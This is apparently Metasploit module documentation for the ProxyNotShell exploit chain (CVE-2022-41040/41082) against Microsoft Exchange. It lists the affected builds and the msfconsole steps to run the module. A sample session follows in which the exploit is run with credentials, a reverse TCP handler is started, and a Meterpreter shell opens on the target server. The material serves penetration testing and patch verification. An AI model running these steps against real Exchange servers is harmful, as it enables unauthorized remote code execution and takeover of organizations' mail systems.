 ## Vulnerable Application

This module chains two vulnerabilities on Microsoft Exchange Server that, when combined, allow an authenticated attacker
to interact with the Exchange Powershell backend (CVE-2022-41040), where a deserialization flaw can be leveraged to
obtain code execution (CVE-2022-41082).

By taking advantage of this vulnerability, you can execute arbitrary commands on the remote Microsoft Exchange Server.

This vulnerability affects:

  * Exchange 2013 CU23 < 15.0.1497.44
  * Exchange 2016 CU22 < 15.1.2375.37
  * Exchange 2016 CU23 < 15.1.2507.16
  * Exchange 2019 CU11 < 15.2.986.36
  * Exchange 2019 CU12 < 15.2.1118.20

*Source: [Description of the security update for Microsoft Exchange Server 2019, 2016, and 2013: November 8, 2022 (KB5019758)][1]*

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/http/exchange_proxynotshell_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set USERNAME [USERNAME]`
5. Do: `set PASSWORD [PASSWORD]`
6. Do: `run`

## Options

## Scenarios

### Version and OS

```
msf6 exploit(windows/http/exchange_proxynotshell_rce) > set RHOSTS 192.168.159.11
RHOSTS => 192.168.159.11
msf6 exploit(windows/http/exchange_proxynotshell_rce) > set USERNAME aliddle
USERNAME => aliddle
msf6 exploit(windows/http/exchange_proxynotshell_rce) > set PASSWORD Password1!
PASSWORD => Password1!
msf6 exploit(windows/http/exchange_proxynotshell_rce) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (175686 bytes) to 192.168.159.11
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.11:7290) at 2022-11-18 17:32:18 -0500

meterpreter > 
```

[1]: https://support.microsoft.com/en-us/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-november-8-2022-kb5019758-2b3b039b-68b9-4f35-9064-6b286f495b1d

